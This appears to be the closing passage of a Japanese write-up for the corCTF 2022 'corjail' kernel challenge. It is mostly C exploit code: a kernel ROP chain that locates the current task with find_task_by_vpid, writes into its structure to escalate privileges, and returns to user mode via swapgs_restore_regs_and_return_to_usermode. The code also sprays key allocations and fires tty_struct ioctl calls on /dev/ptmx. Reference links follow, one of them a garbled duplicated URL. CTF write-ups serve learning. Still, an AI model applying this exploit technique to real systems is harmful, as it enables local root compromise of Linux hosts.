    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = getpid();
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

    *rop++ = KADDR(0xffffffff8117668f); // pop rdx
    *rop++ = 0x6E0;
    *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
    *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
    *rop++ = 0; // trash


    *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                               // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (ulong)NIRUGIRI;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
    *rop++ = user_ss;

    printf("[+] size: 0x%lx\n", (ulong)rop - (ulong)key_payload);
    assert((ulong)rop - (ulong)key_payload <= NUM_3RD_KEY_SIZE);
    assert(512 < NUM_3RD_KEY_SIZE + 0x10 && NUM_3RD_KEY_SIZE + 0x10 < 1024);
    for (int ix = 0; ix != NUM_3RD_KEY_SPRAY; ++ix) alloc_key(key_payload, NUM_3RD_KEY_SIZE + 0x10, NULL);
  }

  // Invoke tty_struct.ops.ioctl
  puts("[+] ioctl-ing to /dev/ptmx");
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    ioctl(tty_fd[ix], 0x1234567890, 0xABCDE0000);
  }

  // end of life (unreachable)
  puts("[ ] END of life...");
  //sleep(999999);
}
```

## 参考

- [Author's writeup](https://syst3mfailure.io/corjailhttps://syst3mfailure.io/corjail)
- [corCTF2022 archive](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task/build)
